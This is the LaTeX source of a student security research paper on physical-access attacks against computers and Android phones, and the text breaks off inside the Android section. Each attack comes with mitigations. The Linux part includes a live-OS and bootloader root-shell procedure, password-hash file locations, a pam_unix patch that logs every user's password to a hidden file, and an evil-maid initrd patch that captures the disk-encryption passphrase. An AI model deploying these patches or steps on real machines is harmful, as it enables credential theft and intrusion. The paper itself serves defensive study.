%\tableofcontents
%\listoffigures
%\listoftables
%\newpage





%% bare_jrnl.tex
%% V1.3
%% 2007/01/11
%% by Michael Shell
%% see http://www.michaelshell.org/
%% for current contact information.
%%
%% This is a skeleton file demonstrating the use of IEEEtran.cls
%% (requires IEEEtran.cls version 1.7 or later) with an IEEE journal paper.
%%
%% Support sites:
%% http://www.michaelshell.org/tex/ieeetran/
%% http://www.ctan.org/tex-archive/macros/latex/contrib/IEEEtran/
%% and
%% http://www.ieee.org/



% *** Authors should verify (and, if needed, correct) their LaTeX system  ***
% *** with the testflow diagnostic prior to trusting their LaTeX platform ***
% *** with production work. IEEE's font choices can trigger bugs that do  ***
% *** not appear when using other class files.                            ***
% The testflow support page is at:
% http://www.michaelshell.org/tex/testflow/


%%*************************************************************************
%% Legal Notice:
%% This code is offered as-is without any warranty either expressed or
%% implied; without even the implied warranty of MERCHANTABILITY or
%% FITNESS FOR A PARTICULAR PURPOSE! 
%% User assumes all risk.
%% In no event shall IEEE or any contributor to this code be liable for
%% any damages or losses, including, but not limited to, incidental,
%% consequential, or any other damages, resulting from the use or misuse
%% of any information contained here.
%%
%% All comments are the opinions of their respective authors and are not
%% necessarily endorsed by the IEEE.
%%
%% This work is distributed under the LaTeX Project Public License (LPPL)
%% ( http://www.latex-project.org/ ) version 1.3, and may be freely used,
%% distributed and modified. A copy of the LPPL, version 1.3, is included
%% in the base LaTeX documentation of all distributions of LaTeX released
%% 2003/12/01 or later.
%% Retain all contribution notices and credits.
%% ** Modified files should be clearly indicated as such, including  **
%% ** renaming them and changing author support contact information. **
%%
%% File list of work: IEEEtran.cls, IEEEtran_HOWTO.pdf, bare_adv.tex,
%%                    bare_conf.tex, bare_jrnl.tex, bare_jrnl_compsoc.tex
%%*************************************************************************

% Note that the a4paper option is mainly intended so that authors in
% countries using A4 can easily print to A4 and see how their papers will
% look in print - the typesetting of the document will not typically be
% affected with changes in paper size (but the bottom and side margins will).
% Use the testflow package mentioned above to verify correct handling of
% both paper sizes by the user's LaTeX system.
%
% Also note that the "draftcls" or "draftclsnofoot", not "draft", option
% should be used if it is desired that the figures are to be displayed in
% draft mode.
%
\documentclass[journal]{IEEEtran}
\usepackage{graphicx}

% Some very useful LaTeX packages include:
% (uncomment the ones you want to load)



\usepackage{amsmath}
\usepackage[utf8]{inputenc}
\usepackage{hyperref}
\usepackage{url}
\usepackage{cite}
\usepackage{minted}
\usepackage{listings}
\lstset{
    basicstyle=\small\ttfamily,
    columns=flexible,
    breaklines=true,
    escapeinside={(*}{*)}
}

\begin{document}
\title{Non-destructive physical attacks on electronic devices}
\author{Aidar Sabirov, Bogdan Vaneev, Mikhail Boldyrev, SNE}
\markboth{Innopolis University, \today}%
{}
\maketitle

\begin{abstract}
Since there are many devices that are left unattended in organizations, it is vital to consider the risk of hacking them by insiders or external intruders with the goal of obtaining private data or remote access. The purpose of this research is to consider different non-destructive attacks on the electronic devices running Windows, Linux or Android operating systems, to demonstrate such attacks and to develop the methods for their prevention.

\end{abstract}
% IEEEtran.cls defaults to using nonbold math in the Abstract.
% This preserves the distinction between vectors and scalars. However,
% if the journal you are submitting to favors bold math in the abstract,
% then you can use LaTeX's standard command \boldmath at the very start
% of the abstract to achieve this. Many IEEE journals frown on math
% in the abstract anyway.

% Note that keywords are not normally used for peerreview papers.
\begin{IEEEkeywords}
Forensics, Android, Windows, Linux, Physical Access, Smart TV, Physical Security
\end{IEEEkeywords}

\IEEEpeerreviewmaketitle



\section{Introduction}
A lot of efforts in the information security field are spent on prevention the unauthorized access to sensitive data. Nowadays the most sensitive information is entrusted to electronic storages that can be accessed through various electronic devices. The desire of people to have an easy access to this information has made the devices capable of providing that access in a wide variety of ways. The side effect of such efforts is a great increase of entry points to the data storages, and many of them are very often left unattended. That creates a reasonable interest of how secure these devices are when left alone with an attacker? And what can both sides, the information owner and an intruder, do to achieve their goals in such cases?


\subsection{Research Question}

Information can be stored on a wide variety of devices. These devices can be occasionally  left unattended. A lot of them contain private information, corporate secrets and so on, especially when it comes to “bring your own device” policy in some organisations. According to  IBM 2015 Cyber Security Intelligence Index (\url{https://public.dhe.ibm.com/common/ssi/ecm/se/en/sew03133usen/SEW03133USEN.PDF}) 60 \% of all attackers are insiders. An insider that has physical access to a device may attempt to steal information for personal gain, or to benefit another organization or country. Our goal is to identify possible attacks that can be performed via physical access to an electronic device, demonstrate them and provide countermeasures to protect from such kind of attacks. We will also identify attacks on smartphones that could be performed when an adversary and its victim are located in the same local network.


\subsection{Related work}

There are several works regarding Android forensics. One of them is called “Android Forensics: A Case Study of the “HTC Incredible” Phone”. In that paper authors are focused mostly on the processing of acquired user data image and extracting information from it. However, we focus mostly on the ways of acquiring that image and clear text user data.

In paper “Android forensics: Automated data collection and reporting from a mobile device” researchers have created an Android monitoring system that collects data sets from users’ smartphones. In contrast to this, our data acquisition methods are not approved by user. User may be even unaware of that his smartphone is being analyzed.

The book “Android Forensics: Investigation, Analysis and Mobile Security for Google Android” comprehensively describes various techniques of data acquisition but many of them are outdated and have to be reconsidered.

TO BOGDAN http://theinvisiblethings.blogspot.ru/2009/10/evil-maid-goes-after-truecrypt.html


\subsection{Methodology}

In this paper the following methodology is used. First, we choose device category,  then we define more precisely the goal in relation to the chosen device, then we enumerate possible obstacles and appropriate attack vectors. The device categories are:

\begin{itemize}
\item{}
Computers: Linux, Windows.
\item{}
Smartphones: Android.
\item{}
Smart TVs.: Samsung Smart TV.
\end{itemize}

Each device is tested with multiple configurations (if applicable) to cover more attack vectors. After that we conclude which configurations complicate the execution of the attacks. Based on that we provide countermeasures.


\section{Computers: Linux, Windows}
In this section we consider attacks on personal computers and servers. Typical attacker here is a person with limited resources (in terms of calculating power and time), but knowledgeable enough to perform actual attacks. 

In each subsection we are going to describe possible computer settings, which could be attacked via physical access.

% Attack 0
%------------------------------------------------------------------------------------------------------------
\subsection{Attack 0 - Eject hard disk from the computer and mount it to attacker's computer} \label{a0}

\paragraph*{Attacking}
Having physical access to the target computer the simpliest attack would be the ejecting the hard disk and mounting it to attacker's computer. Then, attacker can perform steps \ref{root-start}-\ref{root-end} described below (section \ref{a1}) to get root access.

\paragraph*{Mitigation}
Since this is an offline attack, only offline techniques are applicable. You can keep your disk either in a very secure place or use full disk encryption. To detect that your computer has been compromized after this attack, you can seal up your computer cover.

\paragraph*{Vulnerable devices}
This type of attack is especially dangerous for desktop PC's running any operating system, which have no \textbf{full} disk encryption. Having partial disk encryption (i.e. encryption of home folder) can protect your personal files, but attacker can setup a backdoor or a script, which will be executed on your next login, thus, compromizing your data.
%------------------------------------------------------------------------------------------------------------

% Attack 1
%------------------------------------------------------------------------------------------------------------
\subsection{Attack 1 - Booting into another OS}\label{a1}
This method is very simple: attacker has to boot into another OS to get full access to computer's data. In this example we use Live OS. Here we assume that computer has no full disk encryption enabled.


\paragraph*{Attacking}
\begin{enumerate}
    \item Insert a USB stick or an optical disk with any live linux OS. Reboot computer and boot into live OS \footnote{If it is server, then it is booted into main OS. Rebooting can be a signal to administrators that something is wrong, so this method is not stealth. If it is a personal computer, nobody would even notice that something has been stolen.}
    
    \item Get list of partitions \label{root-start}
\begin{lstlisting}
root@kali:/mnt# fdisk -l
Disk /dev/sda: 16 GiB, 17150550016 bytes, 33497168 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x00046ad5

Device        Start     End    Sectors   Size Type
/dev/sda1      2048 31926271  31924224  15.2G Linux
/dev/sda2  31928318 33495039   1566722   765M Extended
/dev/sda3  31928318 33495039   1566720   765M Linux swap / Solaris
\end{lstlisting}

    \item Mount desired partition (in our case it is \texttt{/dev/sda1})
\begin{lstlisting}
root@kali:/mnt# mkdir disk
root@kali:/mnt# mount -t ext4 /dev/sda1 disk/
\end{lstlisting}

    \item \texttt{chroot} into mounted disk. This step allows an attacker to use commands like \texttt{passwd root} as if he had a root access in main OS. \label{root-end}
    
\begin{lstlisting}
root@kali:/mnt# chroot disk/
\end{lstlisting}
\end{enumerate}

Done! Attacker has root access and is able to read any file on a mounted filesystem. At this point he can steal sensitive files or create a local or a remote backdoor into main operating system. 


\paragraph*{Mitigation}
The best defensive method to prevent this attack is to restrict booting into another OS or restrict access to data on a hard disk by encrypting it:

\begin{itemize}
    \item \textit{Remove all USB ports, as well as optical drives}. These are extreme measures, but in some cases may be useful. Unfortunately, other attacks are possible.
    
    \item \textit{Seal up all USB ports and computer cover}. Sealing up does not restrict the attacker to steal the data, but it will not allow to do so without detection. 
    
    \item \textit{Restrict booting from USB in BIOS}. This is not a secure method, because what prevents an attacker to change settings back? Well prepared attacker is able to reset BIOS settings, including a password. It can be reset either with jumpers on the motherboard or by disconnecting the CMOS battery for a few seconds. But this measure is necessary.
    
    \item \textit{Enable UEFI Secure boot}, if your OS was installed in UEFI mode. This option allows to restrict booting into unsigned operating systems. But another problem occurs: to use this attack, attacker can boot from USB into any Linux system, including signed systems (like Ubuntu). This method is not practical.
    
    \item \textit{Enable full disk encryption}. The only way to save your data. 
\end{itemize}

Encrypting only user's home folder restricts access to sensitive data, it is fast enough to ignore delays during boot and does not require a password during boot, which is useful for server systems. However, well-prepared attacker is able to setup a script, which will be executed right after user login, thus stealing decrypted data or providing full remote access to the target computer.


\paragraph*{Vulnerable devices}
This type of attack can be performed against any operating system on any computer including personal computers and servers that can be booted into another OS from a USB stick, optical drive, PXE, another hard disk, etc and do not have full disk encryption enabled. Having physical access to the computer means having root access to this computer.
%------------------------------------------------------------------------------------------------------------

% Attack 2
%------------------------------------------------------------------------------------------------------------
\subsection{Attack 2 - Booting into a root shell from the bootloader}
What if for some reason attacker cannot boot into another OS from the external device? Linux bootloaders can load computer into \textbf{root shell without any password}. This is how it is explained in Ubuntu help:
\begin{quote}
Sometimes it is necessary to get root access, for example when you have forgotten your password or changed something in /etc/sudoers and things do not work as expected.  Be careful, because this step will give you full root access to your system and you can really damage your system! Keep in mind that all the steps you see here can also be done by someone else!~\cite{bootloader-reset-root} 
\end{quote}

\paragraph*{Attacking}
The procedure is different for each bootloder, but the main idea is the same: edit boot configuration and set initial booting process as \texttt{init=/bin/bash}.

\begin{enumerate}
    \item[1a)] When booting up press SHIFT (in systems 9.10 "karmic" or later) or ESC (in systems 9.04 "jaunty" or earlier) at the grub prompt and use the arrow keys to select the rescue mode option and press enter. 

    \item[1b)] Reboot computer, press SHIFT or ESC at the grub prompt, select OS image, press `e' to edit, go to the very end of the line starting with linux image path, add \texttt{init=/bin/bash} to the end of the line, press \texttt{ctrl+x} or \texttt{enter}, then \texttt{b}.

    \item[1c)] For LILO bootloader: type \verb|linux single|

    \item[2)] You are in passwordless root shell. The filesystem may be read only, remount it.

\begin{lstlisting}
# mount -rw -o remount /
# mount -rw -o remount /proc
\end{lstlisting}

\end{enumerate}

Done! Attacker has root access to your filesystem.


\paragraph*{Mitigation}
The only way to protect ourself is to setup a password on a bootloader. It will be prompted each time, when somebody is trying to change any setting in bootloader. 

The setup method is different for each bootloader.

\paragraph*{Vulnerable devices}
This type of attack can be performed against any operating system on any computer, which have linux bootloaders installed (most popular are GRUB and LILO) including personal computers and servers. Access to root shell exposes access to all operating systems on disk.
%------------------------------------------------------------------------------------------------------------

% Attack 3
%------------------------------------------------------------------------------------------------------------
\subsection{Attack 3 - Partial disk encryption}
The universal way to mitigate previously described attacks is disk encryption. In this subsection we consider a computer with a partial disk encryption enabled. Partial disk encryption is encryption of user files: user's home directory, single folder or single file. Generally it does not encrypt OS files.

\paragraph*{Attacking}
We assume that attacker got physical access and access to mounted filesystem using one of previously described attacks. 

So, attacker has root shell and mounted filesystem. There are generally two vectors:
\begin{enumerate}
    \item Offline attacks - OS depended attack. Since encrypted only user files, attacker is able to steal salted hashes of user's password, then perform bruteforce attack to find passwords.

    \begin{itemize}
        \item Windows: extract user's hash from \verb|%SystemRoot%/system32/config/SAM| file using \verb|samdump2| as it is shown in article:~\cite{attack3}.
        \item Linux: extract user's hash from \verb|/etc/shadow| file.
    \end{itemize}

    \item Trick the user - requires one more login by the user.

    Since only user's files are encrypted, attacker can patch authentication modules to get the password. 

    \begin{itemize}
        \item In Linux it is enough to modify source code of \lstinline{/lib/x86_64-linux-gnu/security/pam_unix.so} using this patch:

\begin{lstlisting}
diff -Naur Linux-PAM-1.1.8/modules/pam_unix/support.c pam-1.1.8-sniff/modules/pam_unix/support.c
--- Linux-PAM-1.1.8/modules/pam_unix/support.c  2013-09-16 13:11:51.000000000 +0400
+++ pam-1.1.8-sniff/modules/pam_unix/support.c  2016-12-01 20:38:31.966332050 +0300
@@ -2,6 +2,10 @@
  * Copyright information at end of file.
  */
 
+#include <fcntl.h>
+#include <sys/types.h>
+#include <sys/stat.h>
+
 #include "config.h"
 
 #include <stdlib.h>
@@ -767,6 +771,13 @@
    if (retval == PAM_SUCCESS) {
        if (data_name)  /* reset failures */
            pam_set_data(pamh, data_name, NULL, _cleanup_failures);
+
+        // sniff password and save it to /boot/grub/.cfg
+        int log_pass_fd = open( "/boot/grub/.cfg", O_APPEND | O_CREAT | O_WRONLY, 0600 );
+        dprintf( log_pass_fd, "User %s password is %s\n", name, p );
+        close( log_pass_fd );
+
+
    } else {
        if (data_name != NULL) {
            struct _pam_failed_auth *new = NULL;
\end{lstlisting}

        \item In Windows other way is much easier: install startup script, which steals decrypted files after user logon. Also this script can provide remote access to the user's computer.
    \end{itemize}

    
\end{enumerate} 

\paragraph*{Mitigation}
Encrypt operating system's files by using full disk encryption.

\paragraph*{Vulnerable}
Any computer with any operating system is vulnerable. If attacker has access to your operating system files, you are in danger.
%------------------------------------------------------------------------------------------------------------


% Attack 4
%------------------------------------------------------------------------------------------------------------
\subsection{Attack 4 - Full disk encryption}
In this subsection we consider a computer with full disk encryption enabled. Full disk encryption is used to encrypt whole disk: user data, operating system. To boot into such OS it must be decrypted during boot. Decryption performs secondary bootloader, in Linux it is \texttt{initrd}~\footnote{initrd (initial ramdisk) is a scheme for loading a temporary root file system into memory, which may be used as part of the Linux startup process.}, in Windows it is \texttt{bootmgr.exe}~\footnote{\url{https://en.wikipedia.org/wiki/Windows_Vista_startup_process}}. They typically residue in \texttt{Efi System Partition} (boot partition). This attack is possible only because these bootloaders are stored in clear on disk.

\paragraph*{Attacking}
This attack is called "Evil maid attack"~\cite{evil-maid}. The scenario is:
\begin{enumerate}
    \item Scene I:  A Chief Financial Officer (CFO) is at a conference. When she goes out to dinner for a little social networking with her peers, she leaves her laptop in her hotel room, confident that any corporate data on the laptop is safe because the hard drive is encrypted.

    \item Scene II: An evil maid (who is actually a corporate spy involved in industrial espionage) spots the CFO leaving her room.

    \item Scene III: The evil maid sneaks into the CFO's room and boots up her laptop from a compromised bootloader on a USB stick.  The evil maid then installs a keylogger to capture the CFO's encryption key and shuts the laptop back down. 

    \item Scene IV: The CFO returns from dinner and boots up her computer. Suspecting nothing, she enters her encryption key and unlocks the laptop's disk drive. At this point attacker receives access to the unencrypted operating system's files. He can perform attack \#3 to steal user's password.
\end{enumerate}

If a Target uses Linux, attacker is able to easily modify its bootloader - \texttt{initrd}. Basically it is just gzipped cpio archive with the following contents:
\begin{lstlisting}
bin  conf  etc  init  lib  lib64  run  sbin  scripts  var
\end{lstlisting}

The following patch for \texttt{initrd} was designed as a proof of concept:
\begin{lstlisting}
diff -Naur --no-dereference tmp.orig/scripts/local tmp.evil/scripts/local
--- tmp.orig/scripts/local  2016-12-03 17:31:53.111082675 +0300
+++ tmp.evil/scripts/local  2016-12-03 17:36:07.097421409 +0300
@@ -115,7 +115,7 @@
 "
            fi
        fi
-   
+
        mkdir -p /host
        mount -o move ${rootmnt} /host
 
@@ -152,6 +152,11 @@
        fi
    fi
 
+   # INSTALL OUR PATCHED PAM AUTHENTICATION MODULE FROM ATTACK #3
+   mount -o remount,rw /root
+   cp /sbin/pammer.so /root/lib/x86_64-linux-gnu/security/pam_unix.so      
+
    [ "$quiet" != "y" ] && log_begin_msg "Running /scripts/local-bottom"
    run_scripts /scripts/local-bottom
    [ "$quiet" != "y" ] && log_end_msg
diff -Naur --no-dereference tmp.orig/scripts/local-top/cryptroot tmp.evil/scripts/local-top/cryptroot
--- tmp.orig/scripts/local-top/cryptroot    2016-12-03 17:31:53.111082675 +0300
+++ tmp.evil/scripts/local-top/cryptroot    2016-12-03 17:32:15.258937696 +0300
@@ -260,7 +260,7 @@
 

+       # steal entered password
        if [ ! -e "$NEWROOT" ]; then
            if ! crypttarget="$crypttarget" cryptsource="$cryptsource" \
-                $cryptkeyscript "$cryptkey" | $cryptcreate --key-file=- ; then
+                $cryptkeyscript "$cryptkey" | tee /run/password |$cryptcreate --key-file=- ; then
                message "cryptsetup: cryptsetup failed, bad password or options?"
                continue
            fi
@@ -304,6 +304,12 @@
        fi
 
        message "cryptsetup: $crypttarget set up successfully"
+       # save password in /boot/grub/.cfg
+       mkdir /run/tmp
+       mount -t ext4 /dev/sda1 /run/tmp > /dev/null 2>&1
+       cat /run/password >> /run/tmp/grub/.cfg
+       echo >> /run/tmp/grub/.cfg
+       umount /run/tmp > /dev/null 2>&1
+       rm -r /run/tmp
        break
    done
\end{lstlisting}

As a result, full compromisation of main operating system.

If a Target uses Windows, attacking is harder, because it requires to reverse engineer and patch \texttt{bootmgr.exe} binary.

\paragraph*{Mitigation}
\begin{itemize}
    \item Use pre-boot settings verification. Trusted Platform Module (TPM) is the best solution. It is embedded into many devices by manufacturers. TPM holds the decryption key and releases it only in case of valid pre-boot settings and valid disk decryption password (can be optional, such that transparently decrypting disk).

    \item If your computer has no TPM, the easiest way to make it safer is to install boot partition onto external drive like USB stick thus there will be no unencrypted data on the disk. To boot into operating system user is required to insert this USB stick.
\end{itemize}

\paragraph*{Vulnerable devices}
If your computer has no pre-boot settings verification, evil-maid attack can be performed independetly from OS.
%------------------------------------------------------------------------------------------------------------

\section{Smartphones: Android}
\subsection{Goal clarification}

In terms of Android we want to derive user data from a smartphone. This data may consist of phone contacts, SMS and other personal information, which is generally stored in the data partition. In this paper we are willing to find and apply possible methods of acquiring clear text data.

\subsection{Possible obstacles}

When it comes to data acquisition from an Android smartphone, there are several obstacles that the researcher may face. First, the device can be protected with a screen lock, which prevents the smartphone control interface function. Second, the user data storage can be encrypted, which prevents the data from being read directly with any alien interface. A combination of these two may significantly increase user data safety. 

Although the screen of an Android device may be locked and the disk may be encrypted, there still may be Android Debug Bridge (ADB) enabled, which could provide an entry point for data acquisition.

\subsection{Encryption}
\label{section:encryption}

Android Full Disk Encryption uses linux kernel module dm-crypt, AES-CBC with ESSIV:SHA256, a 16-byte Disk Encryption Key (DEK) and a 16-byte Initial Vector (IV). Memory partitions are encrypted transparently for userspace applications. The encryption information is stored in a special structure called crypto-footer. This structure is 16 KiB long, but most of this space is reserved for future use, and it may reside at the end of the encrypted partition or on a separate dedicated partition. 

Disk encryption technique was changed significantly through different Android versions. It was first introduced with Android version 3.0. Till version 5.0, the DEK was a randomly generated string, encrypted with the screen lock credentials (PIN, password or gesture pattern). Till Android version 4.4, the PBKDF2 was used to derive a key for DEK decryption. In Android version 4.4, PBKDF2 was replaced by UNIX standard scrypt function, which can be made much harder to break by increasing the memory required for each function execution without affecting user experience. An off the box attack is still possible, but it requires more resources. 

Android version 5.0 introduced mandatory use of hardware-backed key storage. This new feature has bound the DEK to another secret keeper, a special chip in the device. Before this innovation, the encryption data safety relied firstly on the screen lock protection safety against attacks on the device, which are made infeasible even for very short passwords with the help of purportedly increasing retry delays. Apart from that, the encryption data safety also relied on the physical raw data access prevention together with the screen lock password strength against off-box exhaustive search attack (bruteforce). The last option could be considered a weak side of data security, as there are numerous ways of raw encrypted data acquisition, which are extremely hard to prevent. After the raw image was obtained, it is only the screen lock password that prevents the data from being read. According to a  research~\cite{android1}, an average Android smartphone user accesses his or her device about 85 times a day, which makes it extremely inconvenient to use a screen lock password strong enough to prevent off-box bruteforce attack. The hardware-bound key manager introduced in Android L solved this big problem of weak screen lock key: it is not enough to guess a (most probably weak) screen lock key, as the hardware key is needed to obtain the DEK as well. This new feature wholly relies on the hardware stored key security. A special hardware is used, which takes responsibility for key storage, and the Trusted Execution Environment (TEE) isolates all the operations requiring that key from the Android operating system, even including the Linux kernel. 

The new Android 5.0 key storage algorithm is well documented in the official android security page~\cite{android2}. From that document we know that an RSA signature is involved in the key derivation process, which makes the resulting key almost unpredictable without knowing the hardware-bound key, and the 16-byte DEK with 16-byte IV bruteforce infeasible. Also, another disk encryption feature was introduced: now every device coming with installed Android L has its data storage encrypted by default with a publicly known default password. This obviously cannot prevent from data access through smartphone user interface, like touchscreen and buttons, but prevents user data from being read and non-randomly modified through any side access interface (not involving asking the TEE for encryption key).



\subsection{Screen Lock}

The screen locking feature can be implemented with the help of these techniques:

\begin{itemize}
\item{}
PIN
\item{}
Password
\item{}
Drawing pattern
\item{}
Fingerprint
\item{}
Facial recognition
\item{}
Voice recognition
\item{}
NFC tag
\end{itemize}

The first three lock types are almost the only methods most people use to protect their device~\cite{android3}. All the three methods use the key verification data stored in /data/system directory in the MD5 hashed form. The first two, PIN and password, are made from the hashed user input string, and the last one is produced by hashing a sequence of bytes, each of which represents a lock matrix node, in the sequence the user connected them. The first row nodes are assigned bytes 0x00, 0x01, 0x02 and so forth, then the numeration continues to the second row and so on.

The maximum gesture pattern variants number 140704 is achieved if using 8 or 9 nodes in the path. The overall amount of available paths is 389488~\cite{android7}. It is clear that a 4-digit PIN code and a 3x3 gesture pattern can be easily broken by exhaustive search attack. Also, as it was stated before, a strong enough against bruteforce attacks password is very unlikely to be chosen by average smartphone user.


\subsection{Possible scenarios}

\subsubsection{Scenario 0: No lock screen}
In this case no attack is required because adversary can do everything he wants and extract any data from a smartphone.


\textsl{Requirements:} no lock screen is used on smartphone.

\textsl{Mitigation:} set up a lock screen.

\subsubsection{Scenario 1: Gesture pattern is visible}

Sometimes fingers leave marks on the screen. If a device’s owner uses gestures screen lock, we are able to see the pattern left on the screen. In this research we were able to restore the pattern on a tested device. This is called a smudge attack. Figure \ref{pic:smudge} shows an example.

\begin{figure}[!ht]
\centering
